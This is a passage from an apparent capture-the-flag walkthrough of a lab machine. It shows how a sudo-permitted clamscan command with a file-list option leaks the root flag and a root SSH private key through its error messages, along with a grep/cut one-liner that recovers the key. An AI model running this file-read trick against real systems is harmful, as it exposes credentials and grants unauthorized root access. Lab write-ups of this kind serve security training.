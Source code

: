 
With `--file-list` or `-f`, it will get a list of files to scan from a file.
Whenever you have something that can read a filename from a file and interact
with it, it’s worth trying it on `root.txt`.

    
    
    sbrown@snoopy:~$ sudo clamscan -f /root/root.txt
    LibClamAV Warning: **************************************************
    LibClamAV Warning: ***  The virus database is older than 7 days!  ***
    LibClamAV Warning: ***   Please update it as soon as possible.    ***
    LibClamAV Warning: **************************************************
    Loading:    25s, ETA:   0s [========================>]    8.66M/8.66M sigs
    Compiling:   7s, ETA:   0s [========================>]       41/41 tasks 
    
    d78ba555860aee798a837bbfb58fc0cd: No such file or directory
    WARNING: d78ba555860aee798a837bbfb58fc0cd: Can't access file
    
    ----------- SCAN SUMMARY -----------
    Known viruses: 8659055
    Engine version: 1.0.0
    Scanned directories: 0
    Scanned files: 0
    Infected files: 0
    Data scanned: 0.00 MB
    Data read: 0.00 MB (ratio 0.00:1)
    Time: 33.961 sec (0 m 33 s)
    Start Date: 2023:05:10 16:43:58
    End Date:   2023:05:10 16:44:32
    

Here, it reads the hash out of `root.txt`, and then tried to read the file
with named by that hash. But that hash isn’t a file, so it fails, and in the
error message, prints the flag!

The same trick works to read `/root/.ssh/id_rsa`:

    
    
    sbrown@snoopy:~$ sudo clamscan -f /root/.ssh/id_rsa
    ...[snip]...
    -----BEGIN OPENSSH PRIVATE KEY-----: No such file or directory
    WARNING: -----BEGIN OPENSSH PRIVATE KEY-----: Can't access file
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn: No such file or directory
    WARNING: b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn: Can't access file
    NhAAAAAwEAAQAAAYEA1560zU3j7mFQUs5XDGIarth/iMUF6W2ogsW0KPFN8MffExz2G9D/: No such file or directory
    WARNING: NhAAAAAwEAAQAAAYEA1560zU3j7mFQUs5XDGIarth/iMUF6W2ogsW0KPFN8MffExz2G9D/: Can't access file
    ...[snip]...
    

Some `bash` foo will print that nicely by getting just the first of the two
error lines and isolating just the content:

    
    
    sbrown@snoopy:~$ sudo clamscan -f /root/.ssh/id_rsa 2>&1 | grep "No such file" | cut -d':' -f1
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEA1560zU3j7mFQUs5XDGIarth/iMUF6W2ogsW0KPFN8MffExz2G9D/
    ...[snip]...
    atU0AwHtCazK8AAAAPcm9vdEBzbm9vcHkuaHRiAQIDBA==
    -----END OPENSSH PRIVATE KEY-----
    

[](/2023/09/23/htb-snoopy.html)

